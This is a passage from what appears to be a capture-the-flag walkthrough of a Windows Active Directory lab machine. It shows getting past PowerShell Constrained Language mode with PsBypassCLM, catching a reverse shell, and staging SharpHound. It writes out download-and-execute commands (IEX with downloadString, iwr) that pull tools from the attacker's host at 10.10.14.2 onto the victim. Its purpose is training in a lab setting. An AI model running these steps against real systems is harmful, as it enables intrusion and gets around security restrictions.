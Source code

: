 As the **OS** version of the machine is old I'm going to download a deprecated version of the **[`SharpHound.ps1`](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1){:target="_blank"}** collector and transfer it to the victim machine. The **AD** has the **[Constrained Language](https://www.reddit.com/r/PowerShell/comments/nv3e58/getting_newobject_cannot_create_type_only_core/){:target="_blank"}** security feature **enabled**, so I won't be able to run some **cmdlets** (including those used by `SharpHound.ps1`), but there is an excellent tool from **[padovah4ck](https://github.com/padovah4ck/PSByPassCLM){:target="_blank"}**, **[`PsBypassCLM.exe`](https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe){:target="_blank"}**, that can help me bypass this restriction. I download it to my machine and successfully transfer it to the target, now I use a command that sends me a **Reverse Shell** without the **Constrained Language** restriction, but it doesn't work on my first try. A funny thing that happened to me is that **I must have cloned the project** on my machine and **not directly downloaded the PsBypassCLM tool**. Now I can execute the indicated command and catch the incoming connection on port **443** with `nc`. I check that there are no language restrictions and try again to use the `SharpHound.ps1` collector, but it still does not generate the compressed file of the collected information. With `SharpHound.exe` I have version problems so I have to look for another way.

> **Constrained Language mode** in **PowerShell** is a security feature that restricts the use of certain **PowerShell language elements** and **cmdlets**, limiting the ability of scripts and commands to perform potentially harmful operations. It's designed to **mitigate risks** associated with malicious actors using PowerShell for attacks.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/sharphound-v2.6.7.zip .
unzip sharphound-v2.6.7.zip
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/SharpHound.ps1')
# Cannot create type. Only core types are supported in this language mode.      :(

$ExecutionContext.SessionState.LanguageMode
# ConstrainedLanguage   :(

Get-ComputerInfo
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.10.10.103
# Windows 10 / Server 2016 Build 14393 x64

wget https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
iwr -uri http://10.10.14.2/PsBypassCLM.exe -OutFile ./PsBypassCLM.exe
```
